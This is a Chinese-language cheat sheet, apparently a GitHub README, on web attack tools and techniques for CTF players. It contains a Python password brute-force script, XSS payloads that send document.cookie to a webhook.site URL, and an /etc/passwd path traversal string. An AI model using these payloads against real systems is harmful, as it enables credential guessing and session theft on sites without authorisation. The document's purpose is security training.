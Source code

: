 # Web安全攻防工具与技巧速查表

本项目旨在为Web攻防学习者和CTF选手提供一份高效、实用的工具和技巧速查表，涵盖常见Web安全漏洞的检测与利用方法，以及配套的工具和脚本推荐。

---

## 环境与工具建议

- **Burp Suite**：Web渗透测试神器，建议配置好代理和mtls
- **Python**：建议安装，方便自定义脚本
- **常用爆破脚本**：如用于凭证猜解的脚本
- **常用密码字典**：[xato-net-10-million-passwords-1000.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/xato-net-10-million-passwords-1000.txt)
- **默认凭证字典**：[default-passwords.csv](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv)
- **常用路径字典**：如 [common.txt](https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content)
- **webhook**：[webhook.site](https://webhook.site/)
- **hashcat**：本地hash破解工具，[hashcat cheatsheet](https://cheatsheet.haax.fr/passcracking-hashfiles/hashcat_cheatsheet/)
- **在线hash破解**：[crackstation.net](https://crackstation.net/)
- **Cookie编辑工具**：如EditThisCookie插件，或直接用浏览器开发者工具
- **Payload All The Things**：漏洞Payload集合 [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- **CyberChef**：万能编码/解码/分析工具 [CyberChef](https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,''))
- **hash识别**：[tunnelsup hash analyzer](https://www.tunnelsup.com/hash-analyzer/)
- **Base64编码/解码**：[base64decode.org](https://www.base64decode.org/)、[base64encode.org](https://www.base64encode.org/)
- **JWT分析**：[jwt.io](https://jwt.io/)
- **Flask session分析**：[flask-session-cookie-manager](https://noraj.github.io/flask-session-cookie-manager/)、[flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)
- **URL编码解码**：[urldecoder.org](https://www.urldecoder.org/)

---

## 常见漏洞与利用技巧

### 1. 认证相关漏洞（Authentication）

#### 1.1 默认密码
- 检查应用是否有明显的框架标识（如WordPress、Tomcat等）
- 常用默认凭证爆破：[default-passwords.csv](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv)

#### 1.2 弱密码
- 利用Python脚本进行密码爆破（示例代码见下方）
- 可用字典：[xato-net-10-million-passwords-1000.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/xato-net-10-million-passwords-1000.txt)

```python
import requests
import time

wordlist = open("passwords.txt", "r", encoding="utf8").readlines()
url = "https://example.com/login"
headers = {"Content-Type": "application/x-www-form-urlencoded"}

for pwd in wordlist:
    pwd = pwd.strip('\n')
    data = {'username': 'admin', 'password': pwd}
    r = requests.post(url, headers=headers, data=data)
    if "Incorrect" not in r.text:
        print("Password is: " + pwd)
        break
    time.sleep(0.5)
```

#### 1.3 多因素认证（MFA）
- TOTP码可用[totp.danhersam.com](https://totp.danhersam.com/)生成

#### 1.4 SQL注入
- 常用Payload参考：[PayloadsAllTheThings - SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- 可用[guidedctf.sec.edu.au/query-viewer](https://guidedctf.sec.edu.au/query-viewer)可视化SQL查询

#### 1.5 弱会话管理
- 检查Cookie内容，尝试修改角色、用户ID等敏感字段
- JWT、Flask Token分析与伪造见“编码/加密/Token分析”部分

#### 1.6 前端信息泄露
- 检查页面源码与JS文件，查找硬编码凭证或API Key

---

### 2. 授权相关漏洞（Authorization）

#### 2.1 弱会话管理
- 检查Cookie是否可变更为高权限角色或其他用户ID

#### 2.2 API接口/敏感端点泄露
- 检查JS和HTML源码，查找隐藏API端点

#### 2.3 IDOR（不安全直接对象引用）
- 枚举和篡改参数（如id、username、email等），尝试访问他人资源

#### 2.4 URL篡改
- 枚举API路径，尝试越权访问
- 针对403路径继续爆破下级目录

---

### 3. 输入注入类漏洞（Input Injection）

#### 3.1 SQL注入
- 参见认证部分
- Payload参考：[PayloadsAllTheThings - SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

#### 3.2 XSS（跨站脚本攻击）
- 常用Payload参考：[PayloadsAllTheThings - XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- Cookie窃取Payload示例：
  ```html
  <img src=x onerror=this.src='https://webhook.site/xxx?c='+document.cookie>
  <script>fetch('https://webhook.site/xxx?c='+document.cookie)</script>
  ```
- 检查HTTPOnly标志，利用EditThisCookie等工具
- CSP评估：[csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com)

---

### 4. 服务器端攻击（Server Side Attacks）

#### 4.1 路径穿越（Path Traversal）
- 示例Payload：`../../../../../../etc/passwd`
- 详细参考：[PayloadsAllTheThings - Directory Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)
- 在线练习：[PortSwigger Path Traversal](https://portswigger.net/web-security/file-path-traversal)

#### 4.2 本地文件包含（LFI）
- 与路径穿越类似，参考：[PayloadsAllTheThings - File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
- 在线练习：[PentesterLab LFI](https://pentesterlab.com/exercises/from_sqli_to_shell/course)

#### 4.3 文件上传漏洞
- 检查文件上传功能，尝试绕过后端校验
- 参考：[PayloadsAllTheThings - Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
- 在线练习：[PortSwigger File Upload](https://portswigger.net/web-security/file-upload)

#### 4.4 SSRF（服务器端请求伪造）
- 查找URL或文件路径参数，尝试SSRF Payload
- 参考：[PayloadsAllTheThings - SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- 在线练习：[PortSwigger SSRF](https://portswigger.net/web-security/ssrf)

---

### 5. 编码/加密/Token分析

- **Base64/URL编码识别与解码**：`==`、`=`、`%3d`等结尾多为Base64，可用[CyberChef](https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,''))、[base64decode.org](https://www.base64decode.org/)
- **Hash识别**：[tunnelsup hash analyzer](https://www.tunnelsup.com/hash-analyzer/)
- **JWT分析**：[jwt.io](https://jwt.io/)，支持Payload修改与签名
- **Flask Session分析**：[flask-session-cookie-manager](https://noraj.github.io/flask-session-cookie-manager/)、[flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)
- **URL解码**：[urldecoder.org](https://www.urldecoder.org/)

---

## 推荐资源

- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [SecLists](https://github.com/danielmiessler/SecLists)
- [CyberChef](https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,''))
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [PentesterLab](https://pentesterlab.com/exercises/from_sqli_to_shell/course)

---

> 本文档持续更新，欢迎PR补充更多实用技巧和工具！
